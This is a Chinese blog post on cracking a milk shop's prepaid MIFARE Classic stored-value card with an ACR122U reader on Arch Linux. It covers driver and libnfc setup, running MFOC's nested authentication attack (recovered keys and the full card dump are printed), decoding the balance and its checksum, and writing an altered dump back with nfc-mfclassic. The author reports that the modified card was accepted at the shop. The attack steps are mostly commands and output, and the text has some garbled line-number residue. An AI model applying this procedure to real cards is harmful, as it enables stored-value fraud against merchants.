


Arch Linux上使用ACR122U破解鲜奶卡
前言
这样的文章多年前就已经被写烂了，没啥意思，作为学习过程吧，发出来。 前几天办了一张鲜奶会员卡，充值100获得的，也不用实名。把卡放到机子上刷一下就支付完成了，引起了我的兴趣。 玩RFID一般使用Proxmark3，当时年少无知买了ACR122U。 先用我的Nexus5安装Mifare Classic Tool验证一下奶店提供的卡是不是Mifare Classic卡(Nexus5硬件不支持这种类型的卡，只能读基本信息)。 确定是之后，重新拿出封尘的ACR122U，开始在Arch Linux上折腾。 我的两张饭卡都在外出时丢失了，刚好有备份过以前的卡，顺便重新恢复两张。
Basic Knowledge
MIFARE IC卡由荷兰恩智浦(NXP)半导体公司开发，本篇文章分析的是MF1S50系列卡，遵循ISO/IEC 14443A标准。 NXP公司在2010年更新了MIFARE Classic卡，ID分为7 Byte unique ID和4 Byte non-unique ID。
Logical Structure
MIFARE Classic 1K 卡的内存被划分成16个sectors，每个sector有4个blocks，每个block占16bytes。 开头第一个block（Manufacturer Block）包含了UID(Unique Identifier 4 bytes),接下来是厂商数据(Manufacturer Data)。 BCC(Block Check Character, 1 byte，前4bytes ID的异或结果),ATQA(Answer To Request acc, 2 bytes),SAK(Select Acknowledge, 1 byte)。

每个sector中的第四个block（Sector Trailer，控制块）保存着两个Secret keys (Key A, Key B, 各占 6 bytes)和 AC (Access condition,决定哪个Key将被使用，占 3 bytes)。还有GPB(General Purpose Byte, 1 byte, 未使用，或者成为 Unused)。CRYPTO1
MIFARE Classic仅使用CRYPTO1加密算法，因为算法不公开，未经过大神们的考验，存在潜在的漏洞。2007年两位德国人Karsten Nohl 和 Henryk Pltz提出了Crypto-1加密的缺陷。2008年算法被完全逆向并且公布出来。 Crypto-1是一种流密码，依赖密钥序列的随机性和不可预测性。

48-bit的LFSR(Linear Feedback Shift Register，线性反馈位移寄存器)和一个非线性函数，生成密钥，长度太短容易被爆破。 16-bit的LFSR通过一个多项式生成32bit的nT(随机数)。的前面的16-bit决定了后面的16-bit，密钥的不可预测性就失效了。 初始随机数依赖时间生成，通过控制读卡器的时间，可以控制随机数，所以随机性也失效了。Attack
参考大神们的文章将破解方法总结。
- 条件特殊：重放，监控USB流量，在读卡器和卡之间窃听流量。
- 通常：爆破，Dark-Side，认证嵌套(authentication nested)
Usage
ACR122U Driver
下载官方驱动源码
1
wget http://www.acs.com.hk/download-driver-unified/6260/ACS-Unified-Driver-Lnx-Mac-113-P.zip
在编译安装之前，需要pcsc-lite。pcsc-lite 封装了访问使用 SCard API (PC/SC) 访问智能卡设备的开发包。
Arch-Linux
1
sudo pacman -S pcsclite
解压并编译安装
1
2
3
4unzip -d acr122u ./ACS-Unified-Driver-Lnx-Mac-113-P.zip
cd acr122u
tar -jxvf acsccid-1.1.3.tar.bz2
cd ./acsccid-1.1.3
Open Source Near Field Communication (NFC) Library
还需要安装libtool（通用库支持脚本），libnfc，在Arch-Linux上安装特别方便
1
2sudo pacman -S libtool
yaourt libnfc
nfc-list -v查看一下设备列表，结果报错
1
Unable to claim USB interface (Device or resource busy)
Arch Linux Wiki上面说，内核版本(>3.5)会自动加载pn533驱动，pcscd则会报错
先查看一下模块列表
1
2
3
4
5gorgias@3vil ~> lsmod
Module Size Used by
pn533_usb 16384 0
pn533 28672 1 pn533_usb
nfc 86016 1 pn533
把这三个模块移除，并且加入黑名单，灯会熄灭，但是正常使用
1
2sudo modprobe -r pn533_usb pn533 nfc
sudo vi /etc/modprobe.d/blacklist-libnfc.conf
加入以下内容
1
2
3blacklist nfc
blacklist pn533
blacklist pn533_usb
成功显示设备信息
1
2
3
4
5
6
7
8gorgias@3vil ~> nfc-list
nfc-list uses libnfc 1.7.1
NFC device: ACS / ACR122U PICC Interface opened
1 ISO14443A passive target(s) found:
ISO/IEC 14443A (106 kbps) target:
ATQA (SENS_RES): 00 04
UID (NFCID1): 96 c2 d2 9d
SAK (SEL_RES): 08
MFOC
MFOC(Mifare Classic Offline Cracker)是一款离线的认证嵌套攻击工具
1
2
3
4git clone https://github.com/nfc-tools/mfoc.git
cd ./mfoc
autoreconf -vis
make && make install
Dump MIFARE Classic 1K
首先查看帮助
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15gorgias@3vil ~> mfoc -h
Usage: mfoc [-h] [-k key] [-f file] ... [-P probnum] [-T tolerance] [-O output]
h print this help and exit
k try the specified key in addition to the default keys
f parses a file of keys to add in addition to the default keys
P number of probes per sector, instead of default of 20
T nonce tolerance half-range, instead of default of 20
(i.e., 40 for the total range, in both directions)
O file in which the card contents will be written (REQUIRED)
Example: mfoc -O mycard.mfd
Example: mfoc -k ffffeeeedddd -O mycard.mfd
Example: mfoc -f keys.txt -O mycard.mfd
Example: mfoc -P 50 -T 30 -O mycard.mfd
Dump数据，把每个sector的probes调高一点，默认20，速度可以快很多，输出文件为test.mfd。 MFOC先尝试默认密钥，如果不匹配则进行认证嵌套攻击
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
111
112
113
114
115
116
117
118
119
120
121
122gorgias@3vil ~> mfoc -P 500 -O ~/temp/old.mfd
Found Mifare Classic 1k tag
ISO/IEC 14443A (106 kbps) target:
ATQA (SENS_RES): 00 04
* UID size: single
* bit frame anticollision supported
UID (NFCID1): 96 c2 d2 9d
SAK (SEL_RES): 08
* Not compliant with ISO/IEC 14443-4
* Not compliant with ISO/IEC 18092
Fingerprinting based on MIFARE type Identification Procedure:
* MIFARE Classic 1K
* MIFARE Plus (4 Byte UID or 4 Byte RID) 2K, Security level 1
* SmartMX with MIFARE 1K emulation
Other possible matches based on ATQA & SAK values:
Try to authenticate to all sectors with default keys...
Symbols: '.' no key found, '/' A key found, '\' B key found, 'x' both keys found
[Key: ffffffffffff] -> [..xxxxxxxxxxxxxx]
[Key: a0a1a2a3a4a5] -> [..xxxxxxxxxxxxxx]
[Key: d3f7d3f7d3f7] -> [..xxxxxxxxxxxxxx]
[Key: 000000000000] -> [..xxxxxxxxxxxxxx]
[Key: b0b1b2b3b4b5] -> [..xxxxxxxxxxxxxx]
[Key: 4d3a99c351dd] -> [..xxxxxxxxxxxxxx]
[Key: 1a982c7e459a] -> [..xxxxxxxxxxxxxx]
[Key: aabbccddeeff] -> [..xxxxxxxxxxxxxx]
[Key: 714c5c886e97] -> [..xxxxxxxxxxxxxx]
[Key: 587ee5f9350f] -> [..xxxxxxxxxxxxxx]
[Key: a0478cc39091] -> [..xxxxxxxxxxxxxx]
[Key: 533cb6c723f6] -> [..xxxxxxxxxxxxxx]
[Key: 8fd0a4f256e9] -> [..xxxxxxxxxxxxxx]
Sector 00 - Unknown Key A Unknown Key B
Sector 01 - Unknown Key A Unknown Key B
Sector 02 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 03 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 04 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 05 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 06 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 07 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 08 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 09 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 10 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 11 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 12 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 13 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 14 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Sector 15 - Found Key A: ffffffffffff Found Key B: ffffffffffff
Using sector 02 as an exploit sector
Sector: 0, type A, probe 0, distance 64 .....
Found Key: A [9db8bbe5265d]
Data read with Key A revealed Key B: [883206883206] - checking Auth: OK
Sector: 1, type A
Data read with Key A revealed Key B: [883206883206] - checking Auth: OK
Found Key: A [9db8bbe5265d]
Auth with all sectors succeeded, dumping keys to a file!
Block 63, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 62, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 61, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 60, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 59, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 58, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 57, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 56, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 55, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 54, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 53, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 52, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 51, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 50, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 49, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 48, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 47, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 46, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 45, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 44, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 43, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 42, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 41, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 40, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 39, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 38, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 37, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 36, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 35, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 34, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 33, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 32, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 31, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 30, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 29, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 28, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 27, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 26, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 25, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 24, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 23, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 22, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 21, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 20, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 19, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 18, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 17, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 16, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 15, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 14, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 13, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 12, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 11, type A, key ffffffffffff :00 00 00 00 00 00 ff 07 80 69 ff ff ff ff ff ff
Block 10, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 09, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 08, type A, key ffffffffffff :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 07, type A, key 9db8bbe5265d :00 00 00 00 00 00 ff 07 80 69 88 32 06 88 32 06
Block 06, type A, key 9db8bbe5265d :36 30 35 34 38 32 35 00 00 00 00 00 00 00 00 00
Block 05, type A, key 9db8bbe5265d :03 00 00 00 fc ff ff ff 03 00 00 00 05 fa 05 fa
Block 04, type A, key 9db8bbe5265d :dc 23 00 00 23 dc ff ff dc 23 00 00 04 fb 04 fb
Block 03, type A, key 9db8bbe5265d :00 00 00 00 00 00 ff 07 80 69 88 32 06 88 32 06
Block 02, type A, key 9db8bbe5265d :00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00
Block 01, type A, key 9db8bbe5265d :bd fa d2 b5 b9 ab cb be 49 43 bf a8 00 00 00 00
Block 00, type A, key 9db8bbe5265d :96 c2 d2 9d 1b 08 04 00 62 63 64 65 66 67 68 69
开始分析
1
2
3
4
5
6
7
8
996c2 d29d 1b08 0400 6263 6465 6667 6869 #UID 96c2d29d(4 bytes), 1b(???), 08(SAK 1 byte), 0400(ATQA 0004 2 bytes), 6263646566676869(占位 bcdefghi 8 bytes)
bdfa d2b5 b9ab cbbe 4943 bfa8 0000 0000 #字符串“晋业公司IC卡”
0000 0000 0000 0000 0000 0000 0000 0000
9db8 bbe5 265d ff07 8069 8832 0688 3206 #9db8bbe5265d(KeyA 6 bytes), ff0780(Access Conditions 3 bytes), 69（Undefined 1 byte）,883206883206(KeyB 6 bytes)
dc23 0000 23dc ffff dc23 0000 04fb 04fb #dc23 0000(金额高低位转换，10进制 91.80，4 bytes), 23dc ffff(金额异或校验位，4 bytes), 23dc ffff(金额，4 bytes), 04fb 04fb(???)
0300 0000 fcff ffff 0300 0000 05fa 05fa #0300 0000(使用次数，每次消费或充值加1，4 bytes), fcff ffff(次数异或校验位，4 bytes), 0300 0000(次数，4 bytes), 05fa(???)
3630 3534 3832 3500 0000 0000 0000 0000 #卡号6054825
9db8 bbe5 265d ff07 8069 8832 0688 3206 #9db8bbe5265d(KeyA 6 bytes), ff0780(Access Conditions 3 bytes), 69(Undefined 1 byte),883206883206(KeyB 6 bytes)
修改数据
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29gorgias@3vil ~> nfc-mfclassic
Usage: nfc-mfclassic f|r|R|w|W a|b <dump.mfd> [<keys.mfd> [f]]
f|r|R|w|W - Perform format (f) or read from (r) or unlocked read from (R) or write to (w) or unlocked write to (W) card
*** format will reset all keys to FFFFFFFFFFFF and all data to 00 and all ACLs to default
*** unlocked read does not require authentication and will reveal A and B keys
*** note that unlocked write will attempt to overwrite block 0 including UID
*** unlocking only works with special Mifare 1K cards (Chinese clones)
a|A|b|B - Use A or B keys for action; Halt on errors (a|b) or tolerate errors (A|B)
<dump.mfd> - MiFare Dump (MFD) used to write (card to MFD) or (MFD to card)
<keys.mfd> - MiFare Dump (MFD) that contain the keys (optional)
f - Force using the keyfile even if UID does not match (optional)
Examples:
Read card to file, using key A:
nfc-mfclassic r a mycard.mfd
Write file to blank card, using key A:
nfc-mfclassic w a mycard.mfd
Write new data and/or keys to previously written card, using key A:
nfc-mfclassic w a newdata.mfd mycard.mfd
Format/wipe card (note two passes required to ensure writes for all ACL cases):
nfc-mfclassic f A dummy.mfd keyfile.mfd f
nfc-mfclassic f B dummy.mfd keyfile.mfd f
使用大写参数W可以改写空白MC1K卡的UID(某宝上面卖的那种)。
1
2
3
4
5
6
7
8
9
10gorgias@3vil ~> nfc-mfclassic w a ~/temp/test.mfd ~/temp/old.mfd
NFC reader: ACS / ACR122U PICC Interface opened
Found MIFARE Classic card:
ISO/IEC 14443A (106 kbps) target:
ATQA (SENS_RES): 00 04
UID (NFCID1): 96 c2 d2 9d
SAK (SEL_RES): 08
Guessing size: seems to be a 1024-byte card
Writing 64 blocks |...............................................................|
Done, 63 of 64 blocks written.
这里把金额修改减少一毛钱，把修改好的数据写进去，再去鲜奶店刷卡成功，小票上面的金额也匹配。
 结构很简单，完全可以“免费”喝奶。但是这和偷没什么区别了，奶店也是小本生意。
结构很简单，完全可以“免费”喝奶。但是这和偷没什么区别了，奶店也是小本生意。
Reference
[AN10833] MIFARE Type Identification Procedure [AN10927] MIFARE and handling of UIDs [AN1304] NFC Type MIFARE Classic Tag Operation The Mifare Classic AuthenticationProcess Dismantling MIFARE Classic RFID Cooking with Mifare Classic 谈谈 Mifare Classic 破解 - K1two2 RFID破解三两事(三篇文章和评论)